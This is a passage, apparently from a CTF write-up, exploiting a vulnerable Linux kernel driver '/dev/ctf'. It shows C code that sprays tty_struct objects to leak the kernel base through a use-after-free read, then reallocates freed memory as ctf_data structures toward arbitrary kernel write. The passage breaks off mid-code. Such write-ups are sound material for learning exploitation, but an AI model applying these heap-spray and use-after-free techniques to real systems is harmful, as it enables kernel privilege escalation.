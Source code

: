 ```C
    if (mem == NULL) {
      return -ENOMEM;
    }

    data->mem = mem;
    data->size = arg;
    break;

  case 1338:
    kfree(data->mem);
    break;

  default:
    return -ENOTTY;
  }

  return 0;
}

```

First we need to leak kernel text base address. We spray a lot of `struct tty_struct` to make kernel heap contain lots of `tty_operations` data, which includes lots of kernel address.


```C
for(int i=0;i<0x100;i++)
    fd[i] = open(ptmx,2);
for(int i=0;i<0x100;i++)
    close(fd[i]);

```

Then we can use `ctf_ioctl` to allocate the heap buffer with the same size as `struct tty_struct`, letting us able to get those kernel address with `ctf_read`.


```cpp
int ctf = open("/dev/ctf",2);
ioctl(ctf,1337,0x2c0); // allocate heap size same as tty_struct
char buf[0x100];
read(ctf,buf,0x100); // leak kernel base address
size_t* p = (size_t*)buf;
size_t kaddr = p[3] - 0x20745e0;

```

With the kernel address, our next step is to achieve kernel address arbitrary write. We can use the internal data structure `struct ctf_data` to achieve this. We first allocate a buffer which size is same as `struct ctf_data` and free it. Then, we spray a lot of `struct ctf_data` to make it allocate the buffer we just freed. We then can modify `struct ctf_data` from another file descriptor with `ctf_write`.


```cpp
ioctl(ctf,1338,0x0);
// Allocate buffer size same as ctf_data, then free it. 
// We later use ctf_write on this buffer to modify struct ctf_data
ioctl(ctf,1337,0x10);
ioctl(ctf,1338,0x0);
// spray lots of struct ctf_data
// one of them will use the heap buffer we just freed
for(int i=0;i<0x100;i++){
    fd[i] = open(ctfpath, 2); // open /dev/ctf
}
// for scanning usage
for(int i=0;i<0x100;i++){
    ioctl(fd[i],1337,0x100*(i+1));
```